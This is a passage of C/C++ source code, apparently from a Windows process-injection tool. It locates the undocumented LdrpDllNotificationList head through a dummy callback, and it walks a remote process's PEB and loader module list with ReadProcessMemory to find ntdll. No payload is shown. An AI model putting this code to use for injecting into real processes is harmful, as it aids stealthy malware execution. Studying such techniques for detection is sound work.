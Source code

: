                 // Cookie is the last callback registered so its Flink holds the head of the list.
                head = ((PLDR_DLL_NOTIFICATION_ENTRY)cookie)->List.Flink;
                printf("[+] Found LdrpDllNotificationList head: %p\n", head);
    
                // Unregister our dummy callback function
                status = pLdrUnregisterDllNotification(cookie);
                if (status == 0) {
                    printf("[+] Successfully unregistered dummy callback\n");
                }
            }
        }
    
        return head;
    }
    
    LPVOID GetNtdllBase(HANDLE hProc) {
    
        // find NtQueryInformationProcess function
        NtQueryInformationProcess pNtQueryInformationProcess = (NtQueryInformationProcess)GetProcAddress((HMODULE)GetModuleHandleA("ntdll.dll"), "NtQueryInformationProcess");
    
        // Get the PEB of the remote process
        PROCESS_BASIC_INFORMATION info;
        NTSTATUS status = pNtQueryInformationProcess(hProc, ProcessBasicInformation, &info, sizeof(info), 0);
        ULONG_PTR ProcEnvBlk = (ULONG_PTR)info.PebBaseAddress;
    
        // Read the address pointer of the remote Ldr
        ULONG_PTR ldrAddress = 0;
        BOOL res = ReadProcessMemory(hProc, ((char*)ProcEnvBlk + offsetof(_PEB, pLdr)), &ldrAddress, sizeof(ULONG_PTR), nullptr);
    
        // Read the address of the remote InLoadOrderModuleList head
        ULONG_PTR ModuleListAddress = 0;
        res = ReadProcessMemory(hProc, ((char*)ldrAddress + offsetof(PEB_LDR_DATA, InLoadOrderModuleList)), &ModuleListAddress, sizeof(ULONG_PTR), nullptr);
    
        // Read the first LDR_DATA_TABLE_ENTRY in the remote InLoadOrderModuleList
        LDR_DATA_TABLE_ENTRY ModuleEntry = { 0 };
        res = ReadProcessMemory(hProc, (LPCVOID)ModuleListAddress, &ModuleEntry, sizeof(LDR_DATA_TABLE_ENTRY), nullptr);
    
        LIST_ENTRY* ModuleList = (LIST_ENTRY*)&ModuleEntry;
        WCHAR name[1024];
        ULONG_PTR nextModuleAddress = 0;
    
        LPWSTR sModuleName = (LPWSTR)L"ntdll.dll";
    
        // Start the forloop with reading the first LDR_DATA_TABLE_ENTRY in the remote InLoadOrderModuleList
        for (ReadProcessMemory(hProc, (LPCVOID)ModuleListAddress, &ModuleEntry, sizeof(LDR_DATA_TABLE_ENTRY), nullptr);
            // Stop when we reach the last entry
            (ULONG_PTR)(ModuleList->Flink) != ModuleListAddress;
            // Read the next entry in the list
            ReadProcessMemory(hProc, (LPCVOID)nextModuleAddress, &ModuleEntry, sizeof(LDR_DATA_TABLE_ENTRY), nullptr))
        {
    